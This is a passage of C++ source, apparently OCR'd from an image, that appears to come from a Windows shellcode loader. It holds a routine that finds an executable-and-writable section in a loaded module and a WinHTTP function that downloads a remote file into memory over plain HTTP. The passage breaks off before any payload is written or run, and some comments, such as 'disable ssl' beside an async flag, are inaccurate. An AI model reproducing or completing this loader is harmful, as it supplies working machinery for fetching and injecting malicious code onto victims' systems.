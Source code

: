 ```
            if ((sectionHeader->Characteristics & IMAGE_SCN_MEM_EXECUTE) &&
                (sectionHeader->Characteristics & IMAGE_SCN_MEM_WRITE))
            {
                DWORD_PTR baseAddress = (DWORD_PTR)hModule;
                DWORD_PTR sectionOffset = sectionHeader->VirtualAddress;
                DWORD_PTR rwxOffset = sectionOffset + baseAddress;
                return rwxOffset;
            }

            sectionHeader++;
        }
    }

    return 0;
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_ASYNC);          // disable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        INTERNET_DEFAULT_HTTP_PORT,            // port 80
        0);

    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        WINHTTP_FLAG_BYPASS_PROXY_CACHE);                   // no ssl

    // send the request
    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    // receive response
    WinHttpReceiveResponse(
        hRequest,
        NULL);

    // read the data
    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {
```